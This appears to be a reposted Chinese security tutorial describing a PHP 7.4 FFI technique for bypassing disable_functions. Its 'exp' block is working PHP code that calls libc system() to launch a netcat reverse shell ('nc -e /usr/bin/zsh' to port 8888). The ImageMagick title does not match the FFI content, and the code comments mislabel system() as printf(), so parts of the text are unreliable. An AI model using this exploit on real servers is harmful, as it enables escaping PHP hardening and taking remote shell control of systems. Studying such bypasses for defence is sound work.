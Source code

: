 # 利用 ImageMagick 漏洞绕过（二）

> 原文：[https://www.zhihuifly.com/t/topic/3471](https://www.zhihuifly.com/t/topic/3471)

## 利用 ImageMagick 漏洞绕过（二）

**1.利用条件**

php 7.4
ffi.enable=true

**2.基本原理**

FFI（Foreign Function Interface），即外部函数接口，允许从用户区调用C代码。
当PHP所有的命令执行函数被禁用后，通过PHP 7.4的新特性FFI可以实现用PHP代码调用C代码的方式，先声明C中的命令执行函数，然后再通过FFI变量调用该C函数即可Bypass disable_functions。

![image](img/c97dba03983492deb4876554a7614a37.png)

**3.exp**

```
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
   "int system(char *command);", // this is a regular C declaration
   "libc.so.6");
// call C's printf()
$a='nc -e /usr/bin/zsh 127.0.0.1 8888';
$ffi->system($a);
?> 
```